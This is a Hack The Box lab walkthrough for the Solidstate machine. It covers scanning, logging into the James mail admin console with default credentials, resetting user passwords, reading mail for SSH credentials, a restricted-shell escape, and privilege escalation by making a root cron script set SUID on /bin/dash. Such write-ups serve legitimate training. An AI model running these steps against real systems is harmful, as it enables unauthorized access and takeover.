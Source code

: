 # Solidstate Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA solidstate -T4 10.10.10.51``

![image](https://user-images.githubusercontent.com/123066149/230373146-769483c1-1080-4aa6-b1f0-bfee7acb3f3c.png)

``nmap -p- -sV -T4 -oA fullsolidstate 10.10.10.51``

![image](https://user-images.githubusercontent.com/123066149/230373494-4ff167f4-d678-428b-acd2-7dfb3406278b.png)

### We have a web site on the box but only html file on this :

![image](https://user-images.githubusercontent.com/123066149/230373805-dc88933b-0102-4584-84d3-e49fbf4c8ba6.png)

### After a litle research on google i have that :

![image](https://user-images.githubusercontent.com/123066149/230373962-cdde3e6f-c6a3-4296-8eb2-0ed4262635c6.png)

![image](https://user-images.githubusercontent.com/123066149/230374111-3581e0d8-b51f-4947-8a48-bae2d637fbf1.png)

### A litle telnet on the port 4555 :

``telnet 10.10.10.51 4555``

### Default cred's root and root :

![image](https://user-images.githubusercontent.com/123066149/230374604-73a6dc48-7298-48b6-a306-72070fef6ac9.png)

### I list all users and change all passwords :

![image](https://user-images.githubusercontent.com/123066149/230375398-c26e072a-1d55-45b7-8e3f-089011282ac8.png)

# ${{\color{purple}Initial Foothold}}\ $

### I tested this exploit but as we see we need a valid ssh creds :

https://www.exploit-db.com/exploits/50347

``python james_server_exploit.py 10.10.10.51 10.10.14.8 4444``

![image](https://user-images.githubusercontent.com/123066149/230375918-3f1101f0-9bc6-462e-8017-38f2ae86a442.png)

### We have some users and passwords we can check the email :

``telnet 10.10.10.51 110``

``USER mindy``

``PASS pass``

``LIST``

``RETR 1``

``RETR 2``

![image](https://user-images.githubusercontent.com/123066149/230377842-b49f52ff-eeee-4169-a62a-1f65c016b112.png)

![image](https://user-images.githubusercontent.com/123066149/230377539-76b8e733-410f-435b-a9d6-22d375a36829.png)

# ${{\color{purple}Exploitation}}\ $

### We are in restricted shell :

![image](https://user-images.githubusercontent.com/123066149/230378344-b1706a89-c52c-47cc-b146-e3b15980fa99.png)

### We can bypass that with thie commande :

``ssh mindy@10.10.10.51 -t "bash --noprofile"``

![image](https://user-images.githubusercontent.com/123066149/230378527-a3a1b4a6-6f69-46ca-8f46-c869eee20f31.png)

# ${{\color{purple}Privilege Escalation}}\ $

### After my enumeration i found this script :

![image](https://user-images.githubusercontent.com/123066149/230378975-d4df5a28-03e3-4040-95c5-0ff5b3d5b2d4.png)

### Pspy confirm me that this script run with a crontab :

![image](https://user-images.githubusercontent.com/123066149/230383159-98abc3b3-cb09-4f3a-8dcd-65f64fb1c8f2.png)

![image](https://user-images.githubusercontent.com/123066149/230382964-32169402-f2b1-4cf8-8b25-64b0e55678cf.png)

### We can edit the script and execute command :
### But regular rev shell are not working we have /bin/dash on the machine we will ad chmod 4755 to this binary :

``os.system('chmod 4755 /bin/dash')``

![image](https://user-images.githubusercontent.com/123066149/230384009-2578821d-9f32-483f-95fd-debe8e5cb87e.png)

``date``

``ls -lah /bin/dash``

![image](https://user-images.githubusercontent.com/123066149/230384123-a6526df4-21bd-48cc-b2df-bb13f070ff59.png)

![image](https://user-images.githubusercontent.com/123066149/230384619-80051ff2-7aab-4595-9208-5a80f9326f52.png)

``/bin/dash``

### And we are root :
 
![image](https://user-images.githubusercontent.com/123066149/230384693-5758a51b-e48b-4bad-9dd3-8033513480d8.png)

# ${{\color{purple}Points of Improvement}}\ $
